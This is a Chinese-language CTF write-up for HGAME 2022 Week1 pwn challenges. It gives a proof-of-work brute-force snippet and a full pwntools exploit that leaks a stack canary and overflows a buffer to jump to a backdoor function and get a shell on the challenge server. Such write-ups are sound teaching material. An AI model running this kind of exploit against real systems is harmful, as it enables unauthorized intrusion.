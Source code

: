 ```yaml
---
title: 「PWN」【HGAME 2022 Week1】 Pwn Writeup WP 复现
date: 2022-10-30
tags: ["CTF", "Pwn", "writeup", "wp"]
authors: [nova]
---
```




# test_your_nc

这题就是最基本的 nc 拿 flag 的过程。

贴一个爆破的方法(我做的时候还没有 proof of work)

利用`pwnlib.util.iters`的`mbruteforce`

```python
proof = mbruteforce(lambda x: hashlib.sha256((x).encode()).hexdigest() ==
hash_code, charset, 4, method='fixed')
```

# test_your_gdb

gdb 查看 encrypted_secret，多次尝试发现不变直接绕 memcpy 就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./a.out')
sh = remote('chuj.top', 50610)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')


payload = p64(0xB0361E0E8294F147) + p64(0x8c09e0c34ed8a6a9)
gdb.attach(sh, 'b *0x401380')
sh.recvuntil(b'word')
sh.send(payload)
sh.recv()
canary = u64(sh.recv()[24:32])
print(hex(canary))

payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(elf.sym['b4ckd00r'])
sh.sendline(payload)
sh.interactive()
```
